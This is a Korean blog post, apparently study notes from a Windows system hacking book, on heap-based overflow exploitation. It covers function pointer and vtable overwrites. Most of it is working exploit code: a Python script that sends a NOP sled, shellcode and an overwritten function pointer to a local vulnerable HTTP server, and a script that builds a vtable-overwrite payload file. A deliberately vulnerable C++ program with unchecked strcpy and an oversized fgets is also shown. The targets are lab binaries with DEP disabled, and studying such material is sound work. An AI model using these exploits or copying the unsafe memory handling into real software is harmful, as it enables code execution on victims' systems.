 ```yaml
---
title: 윈도우 시스템 해킹 - 힙 버퍼 오버플로우
category:
    - System Hacking
tags:
    - Windows
    - System
    - Hacking
---
```

[윈도우 시스템 해킹 가이드 / 김현민 저] <br/>
위의 책을 보면서 실습한 코드를 정리함.

마찬가지로 이전과 같이 계산기를 띄우는 쉘코드를 사용하였다.

---

### # Heap

힙 영역은 <u>1. stack보다 큰 메모리를 필요로 할 때</u> 와 <u>2. 객체를 생성할 때</u> 메모리 공간을 사용한다고 한다. 메모리를 배우면서 data, bss, heap 과 같은 영역들을 구분지어서 배웠기 때문에 "Heap-based overflow"라고 하면 data/bss section들은 아닐 것이라고 생각 했었는데, 세 section 모두 overflow 대상으로는 비슷하므로 전체를 묶어서 생각하면 될 듯 싶다.

---

### # Function Pointer Overwrite

#### 1. Vulnerable Code

취약한 코드는 직접 구현하지 않고 http://cafe.naver.com/secuholic -> [윈도우 시스템 해킹 가이드] -> [자료실]에서 다운받아 사용하였다. (vul_HTTP_server.exe)

#### 2. Exploit Code

```python
from socket import *

NOP = b"\x90" * 200
SHELLCODE = (
    b"\xe8\xff\xff\xff\xff\xc2\x5e\x33\xc9\xb1\x2a\xbf\xce\xe7\xd6\xa7"
    b"\x31\x7e\x13\x83\xc6\x04\xe2\xf8\x45\x0b\x3d\x97\x8c\x4a\xb6\xa4"
    b"\x16\x6c\x25\x94\x0e\xd4\x29\x0b\xcd\x1f\x52\x67\xbb\x1e\x5f\xda"
    b"\xde\x86\xef\xda\xde\x92\x33\xa8\x79\xb3\x87\x59\x45\x9a\xce\x2c"
    b"\xb9\xfb\xd5\x54\x45\xdb\x40\xa4\x35\x6c\x11\x64\xaa\x46\xe6\xa7"
    b"\xce\xe7\x5d\xe7\xc2\x6c\x96\xb3\x45\xff\x5d\xbc\x45\xbc\xc6\x2c"
    b"\xb5\xdb\xd5\x5c\x45\x98\xae\xa4\x35\x6e\xab\xbf\x45\x90\xf6\xa4"
    b"\x3d\x6c\x99\x83\xcd\x2c\xe5\x75\xae\xd4\x29\xc1\x71\x54\xd4\x4f"
    b"\x56\x18\x29\x58\x47\xa2\xf6\xc6\xfd\x18\xb0\x18\xb7\xe3\x3e\x2e"
    b"\x31\x18\x29\x2e\x8b\xc3\xe5\x67\x08\xa2\xda\xc4\x08\xa2\xdb\xc6"
    b"\x08\xa2\xd8\xcb\x08\xa2\xd9\xc4\x47\xa2\xc6\x94\x0e\xa7\x86\x2a"
    b"\x8b\xeb\x86\x58\x9b\xc7\xe5\x67\x9e\x18\x83\x83"
)

print("Shellcode Length :", len(SHELLCODE))
DUMMY = b"A"*(499-len(NOP+SHELLCODE))
BUF = b"\x40\x61\x41\x00"
PAYLOAD = NOP + SHELLCODE + DUMMY + BUF

print("[+] Sending Packet...")
s = socket(AF_INET, SOCK_STREAM, 0)
s.connect(('localhost', 80))
s.send(b"GET /"+PAYLOAD)
print(s.recv(150))
s.close()
```

overflow를 일으키는 방법과 실행흐름을 바꾸는 원리는 stack overflow와 매우 비슷하므로 쉽게 코드작성이 가능했으므로 자세한 설명은 생략.

---

### # Vtable Overwrite

대략적으로 아래와 같은 형태로 Vtable이 존재한다. virtual 함수들을 실행할 때는 Vtable을 참조하므로 `Object[0][#func]` 느낌으로 호출하는데, 여기서 `Object[0]` 또는 `Object[0][#func]`의 주소 자체를 바꿔주면 실행 흐름을 바꿀 수 있다. Overflow로 바꿀 수 있는 부분은 전자이므로 해당 부분을 바꿔서 exploit한다.
```
Object  ->  Vtable  ->  vfunc1
            member1     vfunc2
            member2     vfunc3
```

#### 1. Vulnerable Code
```cpp
#include "stdafx.h"
#include <string>
#include <cstdlib>
#include <iostream>
using namespace std;
#pragma warning(disable:4996)
#pragma warning(disable:2664)

class Book {
private:
	char name[100];
	int page;
public:
	Book(char * _name, int _page) {
		strcpy(name, _name);
		page = _page;
	}
	virtual void setName(char* input) {
		char* buf = (char*)malloc(20);
		strcpy(buf, input);
		printname(buf);
		getName();
	}
	virtual void printname(char* buf) {
		printf("name : %s", buf);
	}
	virtual char* getName() {
		return name;
	}
};


int main(int argc, char* argv[]) {
	if (argc != 2) {
		printf(" Usage: bookmanager.exe [filename]\n");
		exit(1);
	}
	static char contents[1000] = { 0, };
	char name[16] = "windows_hacking";
	static Book mybook(name, 1);
	printf("object addr : 0x%x\n", &mybook);
	printf("object vtable addr : 0x%p\n", mybook);
	printf("buf addr : 0x%p\n", &contents);

	FILE *f = fopen(argv[1], "r");
	fgets(contents, 1500, f);
	mybook.setName(contents);
	return 0;
}
```

원래 코드에서는 `"windows_hacking"`을 객체 생성할 때 바로 넣어 주었는데, 에러가 발생하여 name변수를 추가해 넣어주었다. 보안 옵션으로는 DEP를 해제해 주었다.

#### 2. Exploit Code

```python
import struct

print(" # bookmanager.exe exploit ")

shellcode = (
        b"\xe8\xff\xff\xff\xff\xc2\x5e\x33\xc9\xb1\x2a\xbf\xce\xe7\xd6\xa7"
        b"\x31\x7e\x13\x83\xc6\x04\xe2\xf8\x45\x0b\x3d\x97\x8c\x4a\xb6\xa4"
        b"\x16\x6c\x25\x94\x0e\xd4\x29\x0b\xcd\x1f\x52\x67\xbb\x1e\x5f\xda"
        b"\xde\x86\xef\xda\xde\x92\x33\xa8\x79\xb3\x87\x59\x45\x9a\xce\x2c"
        b"\xb9\xfb\xd5\x54\x45\xdb\x40\xa4\x35\x6c\x11\x64\xaa\x46\xe6\xa7"
        b"\xce\xe7\x5d\xe7\xc2\x6c\x96\xb3\x45\xff\x5d\xbc\x45\xbc\xc6\x2c"
        b"\xb5\xdb\xd5\x5c\x45\x98\xae\xa4\x35\x6e\xab\xbf\x45\x90\xf6\xa4"
        b"\x3d\x6c\x99\x83\xcd\x2c\xe5\x75\xae\xd4\x29\xc1\x71\x54\xd4\x4f"
        b"\x56\x18\x29\x58\x47\xa2\xf6\xc6\xfd\x18\xb0\x18\xb7\xe3\x3e\x2e"
        b"\x31\x18\x29\x2e\x8b\xc3\xe5\x67\x08\xa2\xda\xc4\x08\xa2\xdb\xc6"
        b"\x08\xa2\xd8\xcb\x08\xa2\xd9\xc4\x47\xa2\xc6\x94\x0e\xa7\x86\x2a"
        b"\x8b\xeb\x86\x58\x9b\xc7\xe5\x67\x9e\x18\x83\x83"
)

payload = b""
payload += struct.pack("<L", 0xfeb288 + 0xc) * 3
payload +=  b"\x90" * 30
payload += shellcode
payload += b"A" * (1000 - len(payload))
payload += struct.pack("<L", 0xfeb288)

f = open("exp.txt", "wb")
f.write(payload)
f.close()
print("\tlength =", len(payload))

print("[+] Done !!")
```

Exploit을 해보니 Linux의 PLT, GOT의 느낌과 비슷해서 검색을 해보니 맞는 것 같다. 즉, 사용되는 코드만 data영역에 로드하고 그 주소를 vtable에 저장하여 사용한다.

객체 안의 함수를 virtual이 아니라 일반 함수로 한다면, 당연히 프로그램이 실행되면서 text 영역에 로딩되고 함수 주소가 call로 하드코딩 되어 실행되기 때문에 비슷한 방법으로는 exploit이 불가능할 것 같다.
